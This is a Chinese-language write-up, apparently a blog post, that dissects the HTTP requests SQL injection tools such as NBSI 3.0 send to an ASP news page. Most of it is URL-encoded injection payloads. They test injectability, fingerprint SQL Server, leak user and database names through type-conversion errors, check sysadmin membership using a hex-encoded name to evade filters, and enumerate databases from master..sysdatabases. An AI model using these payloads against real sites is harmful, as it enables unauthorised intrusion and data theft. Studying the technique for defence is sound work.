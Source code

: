 news_show.asp?id=15618%20and%201=1

news_show.asp?id=15618%20and%201=2

news_show.asp?id=15618%20and%20exists%20(select%20*%20from%20sysobjects)

news_show.asp?id=15618%20and%20char(124)%2Buser%2Bchar(124)=0

news_show.asp?id=15618;declare%20@a%20int-

news_show.asp?id=15618%20and%20char(124)%2Bdb_name()%2Bchar(124)=0

news_show.asp?id=15618%20And%20IS_SRVROLEMEMBER(0×730079007300610064006D0069006E00)=1

以下是NBSI3.0中嗅探出来的http数据包：

news_show.asp?id=15618%20and%20user%2Bchar(124)=0

news_show.asp?id=15618%20And%20system_user%2Bchar(124)=0

news_show.asp?id=15618%20And%20Cast(IS_SRVROLEMEMBER(0×730079007300610064006D0069006E00)%20as%20nvarchar(1))%2Bchar(124)=1

news_show.asp?id=15618%20And%20db_name()%2Bchar(124)=0

news_show.asp?id=15618;declare%20@a%20int-

啊D和Pangolin的数据包这里就不列出来了，都差不多。基本的过程是通过and 1=1和and 1=2来判断是否可注入，一般1=1返回http 200(ok),1=2返回http 500(internal server error)表示injectable。然后and exists(select * from sysobjects)来判断数据库类型，sysobjects是sqlserver每个数据库自带的用来存储数据库信息的表格，access每个数据库自带的表格是msysobjects。判断出来是sqlserver数据库之后，然后用系统自带的变量user,system_user和0比较，system_user是nchar类型，user是char类型，0是肯定是int类型，因为不同类型的数据在sqlserver中无法直接比较，所以对于开启错误提示的sqlserver来说就会报错，顺便将敏感信息也暴了出来：

关于user，system_user的解释，点上面的链接到msdn上去看看。

Cast(IS_SRVROLEMEMBER(0×730079007300610064006D0069006E00)%20as%20nvarchar(1))%2Bchar(124)=1中cast()作用是将一种数据类型的表达式显式转换为另一种数据类型的表达式。CAST 和 CONVERT 提供相似的功能。IS_SRVROLEMEMBER指示 SQL Server 2005 登录名是否为指定固定服务器角色的成员，返回值类型为int，0表示不是某某成员，1表示是。 0×730079007300610064006D0069006E00是&amp;apos;sysadmin&amp;apos;的16进制码,为啥要弄成16进制呢，我猜想可能是怕网站程序过滤点sysadmin关键字,如果页面正常返回(200),则表示该用户是sysadmin。精心将int转换成nvarchar(1)又会暴出类型转换错误，而这就是黑客所需要的信息。db_name()回暴出当前数据库名。

;declare%20@a%20int-申明一个int变量a，作用我不得而知。

接下来的工作是列出服务器上的数据库名：(假设服务器上有16个数据库)

news_show.asp?id=15618 And (Select char(124)%2BCast(Count(1) as varchar(8000))%2Bchar(124) From master..sysdatabases)%3E0

news_show.asp?id=15618 And char(124)+(Select Top 1 cast([name] as varchar(8000)) from(Select Top 1 dbid,name from [master]..[sysdatabases] order by [dbid]) T order by [dbid] desc)&gt;0

news_show.asp?id=15618 And char(124)+(Select Top 1 cast([name] as varchar(8000)) from(Select Top 2 dbid,name from [master]..[sysdatabases] order by [dbid]) T order by [dbid] desc)&gt;0

news_show.asp?id=15618 And (Select Top 1 cast([name] as nvarchar(4000))%2Bchar(124) from(Select Top 16 dbid,name from [master].[dbo].[sysdatabases] order by [dbid]) T order by [dbid] desc)&gt;0

先列出上面UrlEncode的字符

%2B - &amp;apos;+&amp;apos;

%3E - &amp;apos;&gt;&amp;apos;
